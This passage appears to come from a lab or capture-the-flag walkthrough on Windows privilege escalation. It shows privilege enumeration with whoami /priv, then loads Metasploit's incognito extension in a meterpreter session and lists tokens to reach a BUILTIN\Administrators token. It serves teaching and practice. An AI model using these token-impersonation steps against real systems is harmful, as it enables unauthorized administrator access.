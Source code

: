 ## Privilege Escalation

Now you are ready to escalate your privileges.  
You will do so using a tecnique called **token impersonation**.  
Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated.  
The point is to impersonate a user with higher privileges.

```bash
PS C:\Users> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= ========
...
SeDebugPrivilege                Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Disabled
SeTimeZonePrivilege             Change the time zone                      Disabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Disabled
```

You can see that the SeDebugPrivilege and SeImpersonatePrivilege are enabled for your current user.  
You will exploit this configuration using **incognito**, one of metasploit's extension modules.

```bash
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
...
```

The BUILTIN\Administrators token is available! Let's use that.
